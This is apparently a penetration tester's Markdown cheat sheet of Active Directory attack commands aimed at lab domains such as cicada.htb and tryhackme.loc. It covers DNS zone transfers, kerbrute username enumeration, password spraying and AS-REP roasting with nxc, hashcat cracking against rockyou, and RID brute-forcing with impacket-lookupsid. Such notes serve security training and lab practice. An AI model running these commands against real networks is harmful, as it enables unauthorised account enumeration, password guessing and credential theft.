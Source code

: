 ```
nmcli dev show <interface>
nslookup -type=SRV _ldap._tcp.dc_msdcs.<domain>
nmap -p 88 --open <ip_range>
```

## Dump Domain DNS Records

```
dig axfr <domain_name> @<name_server>
```

## ZeroLogon 

```
netexec Module
```

## No Credentials

### AD Blind Username Enumeration (Kerbrute) ASREP

```
kerbrute userenum --dc 172.16.2.5 -d dante.admin usernames.txt
nxc smb 172.16.2.5 -u jbercov -p passwords.txt
nxc ldap 172.16.2.5 -u jbercov -p '' --asreproast asrep.hash
hashcat asrep.hash /usr/share/wordlists/rockyou.txt /usr/share/hashcat/rules/best64.rule
```

### AD Username Enumeration BruteForce (RID)

```
nxc smb cicada.htb -u '.' -p '' --smb-timeout 10 --rid-brute | grep "SidTypeUser" |cut -d "\\" -f2| cut -d " " -f1 > users.txt

impacket-lookupsid cicada.htb/'.'@cicada.htb -no-pass | grep "SidTypeUser" |cut -d "\\" -f2| cut -d " " -f1 > users.txt
impacket-lookupsid cicada.htb/'guest'@cicada.htb -no-pass | grep "SidTypeUser" |cut -d "\\" -f2| cut -d " " -f1 > users.txt

enum4linux -r -u 'guest' -p '' cicada.htb # Slow and not the best output
```

### Create List of Usernames
https://github.com/urbanadventurer/username-anarchy
```
./username-anarchy --input-file ./test-names.txt
./username-anarchy anna key
```

### Username Enumeration
If you can reach the DC:
```
kerbrute userenum --dc 10.211.11.10 -d tryhackme.loc users.txt
```
